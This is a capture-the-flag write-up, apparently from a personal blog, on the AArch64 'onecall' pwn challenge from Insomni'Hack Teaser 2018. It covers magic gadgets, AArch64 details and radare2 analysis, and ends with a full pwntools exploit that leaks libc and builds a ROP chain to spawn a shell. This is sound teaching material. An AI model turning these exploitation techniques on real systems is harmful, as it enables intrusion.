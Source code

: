 ```yaml
---
layout: default
title: "onecall - Insomni'Hack Teaser 2018"
date: 2018-01-21 20:08:00 -0400
categories: exploit pwn gets rop aarch64 arm magic gadget writeup post
---
```

# onecall

> Damnit, I tried that gem and it didn't work... Can you get a shell for me ?
> Difficulty: Easy-ish

The challlenge comes in an archive containing the target Aarch64 ELF binary, the necessary libc
and ld binaries to link with, a copy of `qemu-aarch64` to run locally, and a script
to demonstrate how it's ran.

You can get my copy of the archive from 
[here](https://github.com/n00bSec/CTF-archive/blob/master/InsomnihackTeaser2018/onecall-chall/onecall-efe64fb18c06fbc4ce1c2ae4e7679e14c19ac293d04bdbd13b7d6babe49728b8.tgz).

If you follow along with the same familiarity I had, I suggest using the -g flag in
`qemu-aarch64` to allow you to attach `gdb-multiarch` for debugging.

## What Are Magic Gadgets?
The premise of the challenges' title is that with a single function call, you're supposed to be
able to get a shell. The `gem` mentioned is likely 
[one_gadget](https://github.com/david942j/one_gadget), a tool written in Ruby to cough
up a "magic gadget" for a given libc. These magic gadgets are a huge help if you can control
the program counter after leaking the position of libc, because without any other
setup you essentially land on one and immediately have a shell. Neat, isn't it?

The tool and all others I've seen like it had been written with x86/x64 in mind however, 
which sadly doesn't translate into the same effectiveness in the ARM/Aarch64 architectures,
where registers are loaded with arguments differently.
So that means to do this challenge, you'd have to find your own magic gadget manually.
Thankfully, the basic idea 
[covered here](https://0xabe.io/howto/exploit/2016/03/30/Radare2-of-the-Lost-Magic-Gadget.html) 
is largely the same still, since it's still glibc you're abusing.

## Some Notes On Aarch64
This challenge served as a reason for me to actually read some of the 
[ARMv8 manual](https://goo.gl/eBT4w7),
just so I could understand a portion of what I was reading in the disassembly.
I also took the time to read some articles and 
[watch a video](https://www.youtube.com/watch?v=tBHHBEWu2wI) 
mentioning some of the changes
made between the good ol' 32-bit ARM I was used to and the newer Aarch64. In all, a lot of
changes were made to the architecture. I had come to miss plenty of features
in the older architecture, like instructions
that'd operate on an arbitrary number of registers, 
straightforward PUSH/POP instructions that'd do the same,
writing directly into the program counter, and 16-bit Thumb-mode. 

Instead of functions ending with a POP instruction that moves several pieces of data off of the
stack and into the registers, you'll likely only ever see registers loaded in pairs
on the newer ARM. Storing registers in pairs isn't uncommon either, and neither is
separating the loading of variables' higher order base addresses and their lower order offsets
(though I suspect there might be a specific architectural reason for this).

Also without a Thumb mode, you can't double your possibilities for instructions and 
ROP gadgets for free by branching into an alternate instruction set. 
ALL instructions are aligned 32-bit,
and a fault gets raised anytime the program counter isn't following said alignment.

But although the challenge is made somewhat harder, it's still plenty possible.

## Initial Analysis
I used Radare2 for all of my disassembly during the CTF. 

```bash
r2 -A onecall
VV
s main
```
![Main procedure](/pics/Insomnihack/main.png)

The target binary itself is fairly simple. First, it reads out its own `/proc/self/maps`
file, showing all of the binaries mapped into its process, as well as their addresses.
Most of the file is then written to standard output where we can read it,
before we give 8 bytes to `read()` for the program counter to branch to through the `x1` register.

![Branching from x1](/pics/Insomnihack/jumpx1.png)

With most of the mappings available, and immediate control of the program counter,
we can then look for the magic gadget for the given libc, and try to get our shell.


## Finding the Magic Gadget
The last magic gadget I had used in glibc game from a specific part of `system`.
The lines of source that read...
```c
#define SHELL_PATH      "/bin/sh"       /* Path of the shell.  */
...
(void) __execve (SHELL_PATH, (char *const *) new_argv, __environ); //<-- Look in do_system()
```
By returning right into where the argument setup and call occurs for this line of code, we ought
to manage getting our shell. To find it, you can first find `"/bin/sh"`, and then find
where it's referenced in `__libc_system`.

```
r2 -A lib/libc.so.6 #This can take a second.
/ /bin/sh
#Observe the base offset of 0x117000
#And then you can look through all of the calls to execve in __libc_system. I got one.
axt sym.execve ~__libc_system
```

![Here lies the magic gadget.](/pics/Insomnihack/magicgadget.png)

You probably won't get a direct hit in searching for xrefs to the string 
(perhaps because of how the architecture has to do its referencing now)
but the match still isn't too hard to find by glancing between the source
and the disassembly.

Notice though the store operation that happens right before loading `x2` in our
lovely gadget. During actual execution,
this `x20` register gets set somewhere I wasn't able to track down, 
but it needs to be set somewhere
safe before the execution can continue.

## Workaround

It took me a long time to figure the right workaround was to return into `gets` while the
`x0` register still points to the stack. Then you can write onto the stack all of the
necessary data pointers and return addresses necessary to do Return Oriented Programming.

I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) 
to come across the gadget I used to move `x20` in my exploit, and found that
although the stack wasn't leaked directly by the `/proc/self/maps` read, the very last line of
output does have a consistent offset from the stack you get to see in GDB. This I felt was much
better than pointing into libc's data section, or any other writable mapping I took notice of.

## The Exploit

I shifted `x20` to a safe stack address used in the original program, and jumped into the
magic gadget so that I could enjoy the shell. The slightly cleaned up exploit follows.

```python
#!/usr/bin/python

from pwn import *

DEBUG = False

def getpipe():
    if DEBUG: #Attach debugger.
        return process(['./qemu-aarch64', '-nx', '-L', './', '-g', '12345', './onecall'])
    else:
        return remote('onecall.teaser.insomnihack.ch',1337)

libc_name = "./lib/libc.so.6"
libc = ELF(libc_name)

gets = libc.symbols['gets']

magic_gadget_offset = 0x3d718

p = getpipe()

output = ""
line = p.recvline()
output += line
while "libc" not in line:
    line = p.recvline()
    output += line
output += line
output += p.recvuntil(" here ?")

libc_base = int(line.split('-')[0], 16)

#Initialize ROP
p.send(p64(libc_base + gets))

#For GDB
print "Gets returns @", hex(libc_base+0x000604c8) 

binsh = libc_base + 0x1179a0

#0x0003d7f0      f353c3a8       ldp x19, x20, [sp], 0x30; ret
#What does this do? I took a guess, and tried it.
loadtox20 = libc_base + 0x3d7f0

#For GDB
print "Loading gadget @", hex(loadtox20)

#last region in /proc/self/maps
#00007f38241b9000
#$sp after blr x1 in same run
#00007f38249b8630

memaddr = int(output.split('\n')[-3].split('-')[0], 16) #Consistent offset of 0x7ff630? Yep.
stkbase = memaddr + 0x7ff630 #Here should be a pointer to the filler in our stack.
saferw = stkbase

#Build rop chain. Don't need precision when you can just spray.
ropchain = flat([
    loadtox20-4, #Trying to move x20 to point to stack, load [sp, #16] into x30 for ret
    libc_base + magic_gadget_offset,
    saferw, #For pivoting x20 somewhere safe, throw it up real high
    libc_base+magic_gadget_offset, 
    saferw, saferw, saferw, 
    saferw,saferw, saferw, saferw, saferw,saferw, saferw, saferw, saferw
    ], word_size=64)


payload = "AAAAAAAA"*2 #Filler
payload += ropchain

p.sendline(payload)
p.interactive()

#INS{did_you_gets_here_by_chance?}
```
